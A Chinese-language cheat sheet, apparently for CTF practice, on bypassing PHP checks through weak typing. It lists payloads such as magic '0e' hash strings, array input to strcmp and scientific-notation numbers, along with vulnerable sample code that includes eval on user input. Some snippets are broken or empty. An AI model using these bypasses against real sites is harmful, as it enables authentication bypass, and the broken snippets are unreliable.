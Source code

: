 * [isNumber](#isNumber)
* [数字长度绕过](#数字长度绕过)
* [strcmp](#strcmp)
* [md5](#md5)
* [json_decode](#json_decode)
* [==&===](#==&===)
* [switch](#switch)
* [数字比较](#数字比较)
* $GLOBALS($$) 引用全局作用域中可用的全部变量
### isNumber
is_numeric()判断是否为数字，因为PHP的弱类型，将数字后面加上空格或者任意一个字符即可绕过.
payload:
```
数字%20
p2=2%20
```
### 数字长度绕过
通过科学计数法绕过
payload:
```
$_GET['p1'] > 99999999 && strlen($_GET['p1']) < 9
p1=1e9
```
### strcmp
strcmp函数比较字符串的本质是将两个变量转换为ascii，然后进行减法运算，然后根据运算结果来决定返回值.
语法：strcmp(string1,string2);
0 - 如果两个字符串相等。当传入的数据类型不是字符串是，报错，并且返回0；

<0 - 如果 string1 小于 string2

>0 - 如果 string1 大于 string2
payload：
```
  if (strcmp($_GET['flag'], FLAG) == 0) 
  flag=[]
```
### md5
PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0
payload:
```
QNKCDZO
    240610708
    s878926199a
    s155964671a
    s214587387a
    s214587387a
     sha1(str)
    sha1('aaroZmOk')  
    sha1('aaK1STfY')
    sha1('aaO8zKZF')
    sha1('aa3OFF9m')
```
### json_decode
输入一个json类型的字符串，json_decode函数解密成一个数组，判断数组中key的值是否等于key的值。虽然key的值我们不知道，但是可以利用0=="string"这种形式绕过
payload:
```
define('key', 'flag{4}');
if (isset($_POST['a'])) {
    $a = json_decode($_POST['a']);
    if ($a->key == $key) {
        echo "flag" . key;
    } else {
        echo "不相等";
    }
 } else{
     echo "a不存在";
 }
a={"key":0}
```
### ==&===
“==”是判断数值是否相等，如果类型不同的进行比较，其会将类型转换成相同的再进行比较.“===”则是判断数值和类型是否相等.
当一个字符串欸当作一个数值来取值，其结果和类型如下:
如果该字符串没有包含'.'，'e'，'E'并且其数值值在整形的范围之内，该字符串被当作int来取值，其他所有情况下都被作为float来取值，该字符串的开始部分决定了它的值
如果该字符串以合法的数值开始，则使用该数值，否则其值为0
payload:
```
<?php  
var_dump("admin" ==0);"admin"转换成0
var_dump("1admin" ==1);"1admin"转成成1
var_dump("2admin" ==2);"2admin"转成成2
var_dump("admin1" ==1);"admin1"转换成0
var_dump("admin1" ==0);
var_dump("0e123456" =="0e4456789");//e是科学计数法。0exx=0*10的n次方
?>
#bool(true)
bool(true)
bool(true)
bool(false)
bool(true)
bool(true)
```
### switch
原理同==
payload:
```
```
### 数字比较
绕过常规数字校验，使用16进制。0x
payload:
```
$one=ord('1');
$nigth=ord('9');
$number='2223454235232546';
for(i=0;i<strlen($number);++i){
$digit=ord(tmp[i]);
if($digit>=$one&&$digit<=$night){
return "false";
}
if($number==$temp){
echo "flag";
}
}



```
### $GLOBALS($$) 引用全局作用域中可用的全部变
```
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
if(!preg_match('/^\w*$/',$a )){
  die('ERROR');
}
eval("var_dump($$a);");
show_source(__FILE__);
?>
```
- 看到了$$a,可能是用超全局变量GLOBALS，于是post一个参数hello=GLOBALS，果然：
```
